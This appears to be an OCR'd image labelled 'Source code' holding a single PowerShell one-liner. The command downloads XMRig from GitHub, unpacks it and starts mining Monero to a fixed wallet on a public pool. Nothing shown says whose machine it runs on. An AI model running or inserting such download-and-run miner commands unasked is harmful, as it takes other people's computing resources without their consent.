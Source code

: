 powershell -Command "Invoke-WebRequest -Uri 'https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip' -OutFile 'xmrig.zip'; Expand-Archive -Path 'xmrig.zip' -DestinationPath '.'; cd xmrig-*; .\xmrig.exe -o pool.supportxmr.com:443 -u 45WvRSeZuor9BbKMZF6s1VVvQriMjvScBbRLxoMTGe9c2J8Xnx4HySRHLLeTb8zf9944GD1uEmnpgUFFRHhJ7abSJXrmezb -p x -k --tls"

